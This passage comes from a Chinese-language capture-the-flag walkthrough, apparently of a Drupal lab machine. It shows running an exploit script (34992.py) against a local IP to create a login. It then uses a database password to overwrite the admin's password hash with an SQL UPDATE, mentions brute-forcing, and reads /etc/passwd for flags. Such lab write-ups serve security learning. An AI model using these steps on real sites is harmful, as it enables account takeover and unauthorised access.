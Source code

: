 ![image-20250425182937825](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192326572-1133964941.png)

`python2 34992.py`

![image-20250425183027079](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192327149-907218182.png)

这里需要我们加一下参数，目标URL网址，账号和密码

`python2 34992.py -t http://192.168.190.137/ -u test -p test`

![image-20250425183203308](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192327507-772514122.png)

访问网站，输入账号密码，成功登录

![image-20250425183246331](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192327812-1576378427.png)

第二种方法：修改admin的密码

在进行之前，先run一下进入shell，并加入python交互性

在drupal里面，会自动给网站的密码进行加密

`/var/www/scripts/password-hash.sh`

![image-20250425183534662](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192328170-125127911.png)

而且可以加参数

![image-20250425183640868](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192328514-28061758.png)

得到这一串加密密码后，先登录数据库

`mysql -udbuser -pR0ck3t`

然后进行替换密码

`use drupaldb;update users set pass = "$S$DYyGW7gbUhpGleULFWyeDmGwNxS6ygReItLe6J16hbW/noY/BEXf" where name = 'admin' or name = 'Fred';`

![image-20250425184232980](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192328969-515986917.png)

这样就已经改了，我们也可以尝试一下爆破（因为这算是一个弱口令了）

![image-20250425185926526](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192329376-668696420.png)

然后尝试登录一下 admin/test123 可以登录成功

![image-20250425190029627](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192329665-24152410.png)

![image-20250425190139693](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192329949-362965202.png)

找到flag3

![image-20250425190212543](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192330310-1566703894.png)

我们查看一下/etc/passwd，发现flag4
